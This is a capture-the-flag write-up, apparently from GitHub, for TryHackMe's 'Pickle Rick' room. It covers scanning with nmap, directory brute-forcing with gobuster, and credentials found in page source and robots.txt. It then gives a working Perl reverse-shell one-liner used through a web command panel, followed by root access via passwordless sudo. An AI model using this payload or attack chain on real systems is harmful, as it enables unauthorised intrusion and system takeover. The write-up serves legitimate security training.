

[](https://nmap.org/)
[](https://github.com/OJ/gobuster)

# Pickle Rick
[*"This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle."*](https://tryhackme.com/room/picklerick)

## Reconnaissance
We start by scanning Rick's computer with nmap in order to identify running services:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ sudo nmap -sC -sV 10.10.245.227 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-18 17:12 CET
Nmap scan report for 10.10.245.227
Host is up (0.060s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3a:a1:8b:57:19:c7:40:19:7a:02:a0:38:4c:76:d7:f2 (RSA)
|   256 5c:ca:53:51:41:cb:f4:29:16:20:6a:a3:12:8a:4e:aa (ECDSA)
|_  256 46:e3:3b:91:14:33:45:75:74:32:5a:05:3e:a8:c1:c9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

SSH port at the moment is useless, so we start by scanning port 80, which runs a http server which gives us a html index page.<br>
Looking closer we notice a comment in the code that gives us a username:
```html
<!-- 
    Note to self, remember username!
    Username: R1ckRul3s
-->
```

Unfortunately we don't know yet where to use it

## Enumeration
Since we have a username, probably there will be some hidden login page leading to a hidden reserved page. To discover these endpoints we use gobuster dir search trying most common web file extension:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://10.10.245.227 -x php,sh,py,txt,cgi,html,css,js
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.245.227
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,cgi,html,css,js,php,sh,py
[+] Timeout:                 10s
===============================================================
2022/03/18 17:15:10 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882] 
/assets               (Status: 301) [Size: 315] [--> http://10.10.245.227/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                    
/robots.txt           (Status: 200) [Size: 17]
...
```

Now we have a login page (`login.php`), a reserved page (`portal.php`) and a `robots.txt` file which contains the word `Wubbalubbadubdub`. May it be a present exagerately nice? Yes! It is the password.<br>
Now we can login and try to get the ingredients

## Exploitation
Unfortunately hereon the flags can all be taken with the same exploit... As soon as we enter we have a remote command execution tool.



Testing it we discover the first ingredient in the current directory using `ls`, but we notice that `cat` command is blacklisted.<br>
Unfortunately blacklist is a bitch: as soon as I get frustrated for the missing cat command I try a reverse shell and I get remote code execution :)
```perl
perl -e 'use Socket;$i="LHOST";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ nc -lnvp 4242     
listening on [any] 4242 ...
connect to [10.18.20.168] from (UNKNOWN) [10.10.245.227] 34620
/bin/sh: 0: can't access tty; job control turned off
$
```

From here we can find the first ingredient in the current directory, the second in `/home/rick/secret\ ingredients` and the third in `/root/3rd.txt`.<br>
How to get the last? We haven't root privileges... Wrong! These are sudo privileges:
```
User www-data may run the following commands on ip-10-10-233-44.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

This means we can execute command `sudo su` and go get the third ingredient